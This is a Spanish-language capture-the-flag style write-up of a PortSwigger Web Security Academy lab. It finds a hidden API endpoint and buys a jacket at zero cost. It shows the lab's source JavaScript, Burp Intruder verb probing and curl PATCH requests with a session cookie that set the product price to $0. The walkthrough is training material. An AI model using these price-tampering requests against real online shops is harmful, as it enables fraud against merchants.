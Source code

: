 ```yaml
---
title: API Testing Lab 3
date: 2025-02-16 12:27:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - API Testing
tags:
  - API Testing
  - Finding and exploiting an unused API endpoint
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Finding and exploiting an unused API endpoint

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos explotar un `endpoint oculto de la API` para comprar una `Lightweight l33t Leather Jacket`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/API-Testing-Lab-3/image_2.png)

Si nos `abrimos` el `código fuente` de la `web` nos encontramos estos

![](/assets/img/API-Testing-Lab-3/image_3.png)

Si accedemos a `https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/resources/js/api/productPrice.js` vemos este contenido

```
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

Pulsamos sobre `View details > Add to cart` para añadir un producto a nuestro carrito

![](/assets/img/API-Testing-Lab-3/image_4.png)

Si nos abrimos `Burpsuite` y nos dirigimos a la extensión `Logger ++` vemos que al `añadir` un `producto` al `carrito` se hace una petición a `/api/products/1/price`

![](/assets/img/API-Testing-Lab-3/image_5.png)

`Mandamos` la `petición` al `Intruder` y marcamos `GET`

![](/assets/img/API-Testing-Lab-3/image_6.png)

`Añadimos` el `payload` llamado `HTTP verbs`

![](/assets/img/API-Testing-Lab-3/image_7.png)

`Inspeccionamos` las `respuestas` recibidas y vemos un `código de estado 400` con esta `respuesta`

![](/assets/img/API-Testing-Lab-3/image_8.png)

`Enviamos` esta `petición` y nos responde que nos falta un `parámetro` en el `body`

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{}'          
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}  
```

`Modificamos` el `precio` del `artículo` aparentemente

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{"price":0}'         
{"price":"$0.00"} 
```

Si nos `dirigimos` a la `web` podemos confirmarlo

![](/assets/img/API-Testing-Lab-3/image_9.png)

`Pulsamos` sobre `Place Order` y `compramos` el `artículo`

![](/assets/img/API-Testing-Lab-3/image_10.png)

![](/assets/img/API-Testing-Lab-3/image_11.png)
